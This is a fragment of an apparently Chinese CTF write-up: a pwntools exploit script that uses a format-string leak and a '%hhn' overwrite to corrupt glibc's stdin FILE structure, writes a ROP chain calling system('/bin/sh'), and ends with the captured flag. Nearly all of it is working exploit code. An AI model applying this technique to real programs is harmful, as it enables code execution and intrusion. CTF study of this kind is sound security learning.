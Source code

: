 ```python
sh.recvuntil('0x')  
#泄露main的ebp的值  
main_ebp = int(sh.recvuntil(b'-').split(b'-')[0],16)  
#泄露存放(main返回地址)的地址  
main_ret = main_ebp + 0x8  
   
setName(p64(_IO_buf_base))  
#覆盖_IO_buf_base的低1字节为0  
echoback('%16$hhn')  
   
#修改_IO_2_1_stdin_结构体  
payload = p64(0x83 + _IO_2_1_stdin_addr)*3 + p64(main_ret) + p64(main_ret + 0x8 * 3)  
sh.sendlineafter('choice>>','2')  
sh.sendafter('length:',payload)  
sh.sendline('')  
#不断调用getchar()使fp->_IO_read_ptr与使fp->_IO_read_end相等  
for i in range(0,len(payload)-1):  
   sh.sendlineafter('choice>>','2')  
   sh.sendlineafter('length:','')  
   
#对目标写入ROP  
sh.sendlineafter('choice>>','2')  
payload = p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)  
sh.sendafter('length:',payload)  
#这个换行最好单独发送  
sh.sendline('')  
#getshell  
sh.sendlineafter('choice>>','3')  
   
sh.interactive()
```

ps:这个exp执行到最后一个sh.sendlineafter('length:','')会卡一下，不要急，等等shell就来了。

- ### Flag
  > cyberpeace{3e15cd2c05482a80e512106cdddfab08}